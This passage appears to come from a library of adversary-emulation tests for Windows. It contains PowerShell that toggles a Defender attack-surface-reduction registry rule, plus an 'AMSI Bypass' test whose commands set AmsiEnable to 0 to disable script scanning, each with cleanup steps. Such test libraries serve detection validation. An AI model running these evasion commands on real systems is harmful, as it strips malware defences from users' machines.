 
```powershell
$registryPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR\Rules"

if (-not (Test-Path $registryPath)) {
    New-Item -Path $registryPath -Force
    Write-Host "Registry key created: $registryPath"
}

$newValueName = "36190899-1602-49e8-8b27-eb1d0a1ce869"
$newValueData = "1"
New-ItemProperty -Path $registryPath -Name $newValueName -PropertyType String -Value $newValueData -Force
Write-Host "Registry value created: $newValueName with data $newValueData"

Remove-ItemProperty -Path $registryPath -Name $newValueName
Write-Host "Registry value deleted: $newValueName"
```






<br/>
<br/>

## Atomic Test #53 - AMSI Bypass - Create AMSIEnable Reg Key
Threat Actor could disable the AMSI function by adding a registry value name “AmsiEnable” to the registry key “HKCU\Software\Microsoft\Windows Script\Settings\AmsiEnable” and set its value to 0.
Ref: https://mostafayahiax.medium.com/hunting-for-amsi-bypassing-methods-9886dda0bf9d

**Supported Platforms:** Windows


**auto_generated_guid:** 728eca7b-0444-4f6f-ac36-437e3d751dc0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-Item -Path "HKCU:\Software\Microsoft\Windows Script\Settings" -Force | Out-Null
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows Script\Settings" -Name "AmsiEnable" -Value 0 -PropertyType DWORD -Force | Out-Null
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "HKCU:\Software\Microsoft\Windows Script\Settings" -Recurse -Force 2> $null
```





<br/>
